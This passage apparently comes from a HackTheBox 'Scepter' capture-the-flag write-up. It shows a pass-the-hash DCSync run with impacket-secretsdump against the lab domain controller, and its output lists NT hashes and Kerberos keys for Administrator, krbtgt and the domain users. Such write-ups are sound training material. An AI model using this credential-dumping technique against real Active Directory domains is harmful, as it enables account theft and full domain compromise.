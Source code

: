 
![](/assets/images/HTB-Scepter/Pasted_image_20250718164455.png)

```bash
┌──(root㉿kali2025)-[~/Desktop/HackTheBox/machines/scepter]
└─# impacket-secretsdump -dc-ip 10.10.11.65 scepter.htb/p.adams@dc01.scepter.htb -hashes ':1b925c524f447bb821a8789c4b118ce0' -just-dc
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:a291ead3493f9773dc615e66c2ea21c4:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:c030fca580038cc8b1100ee37064a4a9:::
d.baker\d.baker:1106:aad3b435b51404eeaad3b435b51404ee:18b5fb0d99e7a475316213c15b6f22ce:::
scepter.htb\a.carter:1107:aad3b435b51404eeaad3b435b51404ee:2e24650b1e4f376fa574da438078d200:::
scepter.htb\h.brown:1108:aad3b435b51404eeaad3b435b51404ee:4ecf5242092c6fb8c360a08069c75a0c:::
scepter.htb\p.adams:1109:aad3b435b51404eeaad3b435b51404ee:1b925c524f447bb821a8789c4b118ce0:::
scepter.htb\e.lewis:2101:aad3b435b51404eeaad3b435b51404ee:628bf1914e9efe3ef3a7a6e7136f60f3:::
scepter.htb\o.scott:2102:aad3b435b51404eeaad3b435b51404ee:3a4a844d2175c90f7a48e77fa92fce04:::
scepter.htb\M.clark:2103:aad3b435b51404eeaad3b435b51404ee:8db1c7370a5e33541985b508ffa24ce5:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:0a4643c21fd6a17229b18ba639ccfd5f:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:cc5d676d45f8287aef2f1abcd65213d9575c86c54c9b1977935983e28348bcd5
Administrator:aes128-cts-hmac-sha1-96:bb557b22bad08c219ce7425f2fe0b70c
Administrator:des-cbc-md5:f79d45bf688aa238
krbtgt:aes256-cts-hmac-sha1-96:5d62c1b68af2bb009bb4875327edd5e4065ef2bf08e38c4ea0e609406d6279ee
krbtgt:aes128-cts-hmac-sha1-96:b9bc4dc299fe99a4e086bbf2110ad676
krbtgt:des-cbc-md5:57f8ef4f4c7f6245
d.baker\d.baker:aes256-cts-hmac-sha1-96:6adbc9de0cb3fb631434e513b1b282970fdc3ca089181991fb7036a05c6212fb
d.baker\d.baker:aes128-cts-hmac-sha1-96:eb3e28d1b99120b4f642419c99a7ac19
d.baker\d.baker:des-cbc-md5:2fce8a3426c8c2c1
scepter.htb\a.carter:aes256-cts-hmac-sha1-96:5a793dad7f782356cb6a741fe73ddd650ca054870f0c6d70fadcae162a389a71
scepter.htb\a.carter:aes128-cts-hmac-sha1-96:f7643849c000f5a7a6bd5c88c4724afd
scepter.htb\a.carter:des-cbc-md5:d607b098cb5e679b
```